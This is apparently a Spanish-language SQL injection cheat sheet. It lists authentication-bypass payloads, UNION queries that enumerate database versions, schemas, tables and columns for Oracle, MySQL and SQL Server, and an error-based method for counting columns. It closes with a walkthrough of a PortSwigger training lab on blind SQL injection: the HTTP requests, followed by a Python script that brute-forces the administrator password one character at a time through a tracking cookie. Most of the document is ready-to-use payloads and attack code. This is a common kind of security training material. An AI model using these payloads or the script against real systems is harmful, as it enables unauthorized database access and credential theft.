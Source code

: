 # SQL Injection
La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante insertar código SQL malicioso en las consultas a una base de datos. Esto puede comprometer la integridad de los datos, revelar información confidencial o permitir acciones no autorizadas en el sistema afectado.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Metodologia inyección basada en errores
### Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas. Una vez encontrado el numero iniciaremos una query union select.

Supongamos que el numero de columnas reflejado es 4 primero lo confirmaremos de la siguiente forma
```sql
abc' union select null,null,null,null-- -
```
### Determinar los campos de los que se puede obtener informacion
Ahora determinaremos cual de los 4 campos es de tipo cadena para poder hacer querys sobre ese campo, introduciremos una cadena aleatoria dentro de cada uno para ver cual es reflejado.
```sql
abc' union select 'v0ydRT',null,null,null-- - # 500
abc' union select null,'v0ydRT',null,null-- - # 500
abc' union select null,null,'v0ydRT',null-- - # 200 -> Aqui se pueden injectar querys
abc' union select null,null,null,'v0ydRT'-- - # 500
```
Despues de eso se utiliza toda la informacion aterior para recopilar la informacion de la base de datos.


## Dumpear todos los valores de N numeros de columnas en una sola consulta (MySQL)
Suponiendo que despues de utilizar la metodologia anterior solo podemos injectar sentencias en un campo, podemos utilizar la funcion CONCAT() para extraer valores del numero de columnas que queramos
```sql
' union select null,CONCAT(COLUMNA 1,':',COLUMNA 2) from TABLA-- -
```
## Blind SQL injection conditional responses
En un ataque blind SQL injection el atacante explora la base de datos mediante consultas que, dependiendo de la respuesta del servidor (como respuestas verdaderas o falsas), le permiten inferir datos confidenciales o estructura de la base de datos sin acceder directamente a los resultados.

Ejemplo: El laboratorio https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

"This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called ```users```, with columns called ```username``` and ```password```. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. "

En la siguiente peticion inyectando la sentencia ```' and 1=1-- -``` en la cookie recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=1-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Y en esta inyectando la sentencia ```' and 1=2-- -``` en la cookie no recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=2-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Por lo que podemos inferir que si una consulta es verdadera recibimos el mensaje "Welcome back" y si es falsa no lo recibimos, aunque podemos observar un patron de comportamiento por parte del servidor, aun asi no podemos ver ningun tipo de informacion en nuestras consultas por lo que temos que extraer la informacion letra por letra utilizando la funcion SUBSTRING().

Primero obtenemos la longitud de la ```password```
```sql
TrackingId=iYMM1GrXuxAnojK7' AND (SELECT 1 FROM users WHERE username='administrator' AND LENGTH(password)=20)=1-- -
```
Luego se creo el siguiente script en python y se pudo obtener el valor de esta password
```python
import sys
import requests
from urllib.parse import urlparse

if len(sys.argv) <  4:
    print ('Usage: python3 BlindConditional.py https://aaaaa.web-security-academy.net/ TrackingId=aaaa session=aaaa')
    sys.exit(1)
url = sys.argv[1]
parsed_url = urlparse(url)
host= parsed_url.netloc
dictionary = 'abcdefghijklmnopqrstuvwxyz1234567890'
password = ''
payload_prefix = sys.argv[2] + "' "

for i in range(0, 20):
    for j in dictionary:
        tmp = "AND (SELECT SUBSTRING(password,%d,1) from users where username='administrator')='%s" % (i+1, j)
        payload = payload_prefix + tmp
        headers = {
            'Host': host,
            'Cookie': payload + '; ' + sys.argv[3],
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate',
            'Referer': sys.argv[1],
            'Upgrade-Insecure-Requests': '1',
            'Sec-Fetch-Dest': 'document',
            'Sec-Fetch-Mode': 'navigate',
            'Sec-Fetch-Site': 'same-origin',
            'Sec-Fetch-User': '?1',
            'Te': 'trailers'
        }
        response = requests.get(url, headers=headers)
        print(f'Trying with {headers}')
        if "Welcome back" in response.text:
            password += j
            print(f"Found character at position {i+1}: {password}")
            break

print(f"Password found: {password}")
```

